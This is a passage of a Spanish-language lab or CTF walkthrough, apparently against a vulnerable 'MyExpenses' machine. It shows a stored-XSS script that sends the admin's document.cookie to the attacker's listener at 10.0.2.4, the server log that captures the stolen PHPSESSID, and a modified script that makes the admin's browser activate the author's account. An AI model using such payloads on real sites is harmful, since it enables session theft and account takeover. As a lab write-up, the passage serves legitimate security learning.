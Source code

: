Cada que recargo la pagina hace una peticion get pero yo solo recargue la pagina 1 vez. Las otras peticiones las esta haciendo alguien mas. Quiza el administrador o alguien que esta viendo los usuarios.

Aprovechando que hay alguien recargando la pagina de /admin/admin.php vamos intentar a robarle las cookies.
Para esto me creo una xss.js osea con el mismo nombre que puse el archivo antes.

- xss.js
```
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4/?cookie=' + document.cookie);
request.send()
```

Lo guardamos y nos montamos el servidor con python de nuevo

Ahora tenemos la cookie de una sesion
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /xss.js HTTP/1.1" 200 -
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /?cookie=PHPSESSID=doiro4jbnco1s759jl4chimtu0 HTTP/1.1" 200 -
```

Cambiamos el valor en inspeccionar por la nueva cookie que nos han proporcionado

![](/img/MyExpenses/expenses5.png)

Lamentablemente nos suelta un mensaje de 'Sorry, as an administrator, you can be authenticated only once a time.'

En la pagina puedo darle click al status de mi cuenta y me lleva  a esta URL ``http://10.0.2.18/admin/admin.php?id=11&status=active``

Es como si estuvieras intentando activar una cuenta, Entonces si se la mandamos al administrador mediante nuestro xss.js en teoria deberia activarnos la cuenta.

Modificamos el script y nos montamos el servidor con python

```
❯ cat xss.js                         
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.18/admin/admin.php?id=11&status=active');
request.send()
```
Ahora recargamos la pagina de /admin.php y nos dice que nuestra cuenta de Samuel esta activa.

##-------------------------------------------------------------
Por temas de mala configuracion perdi la maquina y tuve que volver a instalarla. 
A partir de ahora la ip victima sera la 10.0.2.19
Sin mas que decir continuamos :)
##-------------------------------------------------------------
